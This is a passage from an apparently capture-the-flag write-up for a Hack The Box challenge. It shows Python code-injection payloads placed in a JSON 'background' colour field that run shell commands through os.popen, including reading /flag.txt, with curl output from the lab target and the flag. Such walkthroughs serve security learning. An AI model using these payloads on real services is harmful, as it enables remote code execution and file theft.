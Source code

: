 ```python
				)
			)''',
```

We could potentially change it such that `colour[0]` or other indexes store a string to automatically execute code

I tried editing the background variable to write an output to the static directory

```
"background":["255 if len(__import__('os').popen('whoami > /app/application/static/flag.txt').read()) != None else 255",255,255]}
```

```
(base) [hacker@hackerbook ~]$ curl http://46.101.95.192:30335/static/flag.txt
www
(base) [hacker@hackerbook ~]$ 
```


### Reading the flag


```
"background":["255 if len(__import__('os').popen('cat /flag.txt > /app/application/static/flag.txt').read()) != None else 255",255,255]}
```

```
(base) [hacker@hackerbook ~]$ curl http://46.101.95.192:30335/static/flag.txt
HTB{i_slept_my_way_to_rce}(base) [hacker@hackerbook ~]$ 
```



## Flag
`HTB{i_slept_my_way_to_rce}`
``